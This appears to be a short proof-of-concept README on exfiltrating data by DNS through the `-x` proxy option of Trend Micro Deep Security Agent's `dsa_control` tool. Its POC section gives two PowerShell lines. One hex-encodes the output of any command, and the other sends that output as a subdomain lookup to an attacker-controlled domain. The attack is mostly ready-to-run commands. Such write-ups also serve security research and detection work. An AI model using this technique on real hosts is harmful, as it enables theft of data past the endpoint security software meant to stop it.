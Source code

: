 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can exploit it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed


## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

